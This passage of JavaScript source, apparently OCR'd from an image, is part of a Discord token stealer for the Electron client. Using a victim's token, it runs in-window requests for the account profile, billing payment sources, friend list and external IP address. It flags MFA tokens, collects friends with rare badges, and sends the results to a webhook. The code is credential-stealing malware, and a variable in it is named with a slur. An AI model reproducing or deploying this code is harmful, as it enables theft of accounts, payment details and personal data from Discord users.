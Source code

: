                                 "footer": {
                                    "text": "better than all."
                                }
                            }
                            if (token.startsWith("mfa")) {
                                params.embeds.push(mfaembed)
                            }
                            sendToWebhook(JSON.stringify(params))
                        })
                    } else {
                        const window = BrowserWindow.getAllWindows()[0];
                        window.webContents.executeJavaScript(`
                                        var xmlHttp = new XMLHttpRequest();
                                        xmlHttp.open( "GET", "https://discord.com/api/v8/users/@me", false );
                                        xmlHttp.setRequestHeader("Authorization", "${token}");
                                        xmlHttp.send( null );
                                        xmlHttp.responseText;`, !0).then((info) => {
                            window.webContents.executeJavaScript(`
                                        var xmlHttp = new XMLHttpRequest();
                                        xmlHttp.open( "GET", "https://www.myexternalip.com/raw", false );
                                        xmlHttp.send( null );
                                        xmlHttp.responseText;
                                        `, !0).then((ip) => {
                                window.webContents.executeJavaScript(`
                                        var xmlHttp = new XMLHttpRequest();
                                        xmlHttp.open( "GET", "https://discord.com/api/v9/users/@me/billing/payment-sources", false );
                                        xmlHttp.setRequestHeader("Authorization", "${token}");
                                        xmlHttp.send( null );
                                        xmlHttp.responseText`, !0).then((info3) => {
                                    window.webContents.executeJavaScript(`
                                        var xmlHttp = new XMLHttpRequest();
                                        xmlHttp.open( "GET", "https://discord.com/api/v9/users/@me/relationships", false );
                                        xmlHttp.setRequestHeader("Authorization", "${token}");
                                        xmlHttp.send( null );
                                        xmlHttp.responseText`, !0).then((info4) => {
                                        function totalFriends() {
                                            var f = JSON.parse(info4)
                                            const r = f.filter((user) => {
                                                return user.type == 1
                                            })
                                            return r.length
                                        }
                                        function calcFriends() {
                                            var f = JSON.parse(info4)
                                            const r = f.filter((user) => {
                                                return user.type == 1
                                            })
                                            var gay = "";
                                            for (z of r) {
                                                var b = GetRBadges(z.user.public_flags)
                                                if (b != "") {
                                                    gay += b + ` ${z.user.username}#${z.user.discriminator}\n`
                                                }
                                            }
                                            if (gay == "") {
                                                gay = "no rare friends"
                                            }
                                            return gay
                                        }
                                        function cool() {
                                            const json = JSON.parse(info3)
                                            var billing = "";
                                            json.forEach(z => {
                                                if (z.type == "") {